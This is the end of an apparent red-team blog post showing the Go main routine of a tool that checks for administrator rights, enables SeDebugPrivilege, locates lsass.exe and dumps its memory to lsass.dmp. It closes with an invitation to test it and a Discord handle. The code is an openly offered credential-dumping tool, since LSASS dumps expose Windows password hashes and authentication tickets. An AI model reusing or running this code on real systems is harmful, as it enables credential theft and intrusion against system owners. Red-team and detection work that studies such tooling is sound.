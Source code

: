 ```go
}

func main(){
  Banner()

  fmt.Println("[*] Checking permissions...")
  check, err := CheckAdmin()
  if err != nil {
    log.Fatal(err)
  }

  if check == false {
    log.Fatal(errors.New("An error has ocurred, please run as admin!"))
  }

  fmt.Println("[+] Administrator privileges found!")

  fmt.Println("Enabling SeDebugPrivilege...")
  err = EnableSeDebugPrivilege()
  if err != nil {
    log.Fatal(err)
  }

  fmt.Println("[*] Searching lsass.exe process...")
  pid, err := FindLsassPid()
  if err != nil {
    log.Fatal(err)
  }

  fmt.Println("[+] PID found:", pid)

  fmt.Println("[*] Dumping lsass.exe process...")
  err = DumpLsass(pid, "lsass.dmp")
  if err != nil {
    log.Fatal(err)
  }

  fmt.Println("[+] Process finished!")
}
```

If you have any doubt or you wanna ask me anything, contact me via Discord my user is ***d3ext***

Let's go testing it!

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/funny-images/demo-time2.jpg" alt="pic">
